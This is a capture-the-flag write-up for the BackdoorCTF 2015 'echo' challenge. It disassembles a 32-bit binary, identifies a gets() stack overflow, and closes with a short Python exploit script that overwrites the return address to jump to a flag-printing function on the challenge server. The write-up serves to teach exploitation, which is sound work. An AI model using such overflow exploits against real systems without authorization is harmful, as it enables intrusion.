 Title: echo
Author: doskop
Date: 2015-04-03 4:33
Tags: CTF


## Introduction

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

Download the binary: [echo]({filename}/downloads/backdoorctf-2015/echo).

## Analysis

Let's have a quick look at the binary, shall we?

    $ readelf -hl echo|egrep "Type|GNU_STACK"
      Type:                              EXEC (Executable file)
      Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
     GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
    $ readelf -s echo|egrep "FUNC.*GLOBAL.*DEFAULT"|grep -v UND
    
       45: 080486b0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
       55: 080486b4     0 FUNC    GLOBAL DEFAULT   14 _fini
       62: 08048640    97 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
       65: 08048480     0 FUNC    GLOBAL DEFAULT   13 _start
       68: 0804862b    18 FUNC    GLOBAL DEFAULT   13 main
       69: 0804857d   115 FUNC    GLOBAL DEFAULT   13 sample
       74: 080483b0     0 FUNC    GLOBAL DEFAULT   11 _init
       75: 080485f0    59 FUNC    GLOBAL DEFAULT   13 test

So, no ASLR for the main executable, non executable stack and 3 exported functions: main, sample and test. Let's take a look at the disassembly of those functions. The annotations in the output are mine.

    :::asm
    $ pwny symbol-disasm echo main
    push ebp
    mov ebp,esp
    and esp,byte -0x10
    call dword 0x80485f0  ; test
    mov eax,0x0
    leave
    ret
    
    $ pwny symbol-disasm echo test
    push ebp
    mov ebp,esp
    sub esp,byte +0x58
    lea eax,[ebp-0x3a]
    mov [esp],eax
    call dword 0x80483f0  ; gets
    mov dword [esp],0x1
    call dword 0x8048420  ; sleep
    mov eax,[0x804a038]   ; stderr
    lea edx,[ebp-0x3a]
    mov [esp+0x8],edx
    mov dword [esp+0x4],0x80486db  ; "ECHO: %s\n"
    mov [esp],eax
    call dword 0x8048450  ; fprintf
    leave
    ret
    
    $ pwny symbol-disasm echo sample
    push ebp
    mov ebp,esp
    sub esp,0x88
    mov dword [esp+0x4],0x80486d0  ; "r"
    mov dword [esp],0x80486d2  ; "flag.txt"
    call dword 0x8048460  ; fopen
    mov [ebp-0xc],eax
    cmp dword [ebp-0xc],byte +0x0
    jnz 0x80485aa
    mov eax,0x1
    jmp short 0x80485ee
    jmp short 0x80485c0
    mov eax,[0x804a038]  ; stderr
    mov [esp+0x4],eax
    lea eax,[ebp-0x70]
    mov [esp],eax
    call dword 0x8048470  ; fputs
    mov eax,[ebp-0xc]
    mov [esp+0x8],eax
    mov dword [esp+0x4],0x64
    lea eax,[ebp-0x70]
    mov [esp],eax
    call dword 0x8048400  ; fgets
    test eax,eax
    jnz 0x80485ac
    mov eax,[ebp-0xc]
    mov [esp],eax
    call dword 0x8048410  ; fclose
    mov eax,0x0
    leave
    ret

## Exploitation

It seems little Suzie left us some helpful code that outputs the flag and a buffer overflow vulnerability. Little Suzie has a lot to learn. Let's write 0x3a (offset of read buffer in the stack) + 4 (saved ebp) bytes of garbage and the address of the sample function to the buffer.

    #!/usr/bin/env python
    from pwny import *
    
    binary = ELF('echo')
    target.assume(binary)
    
    #f = Flow.execute('./echo', redirect_stderr=True)
    f = Flow.connect_tcp('hack.bckdr.in', 8002)
    f.writeline('A' * 62 + P(binary.get_symbol('sample').value))
    f.read_eof(echo=True)
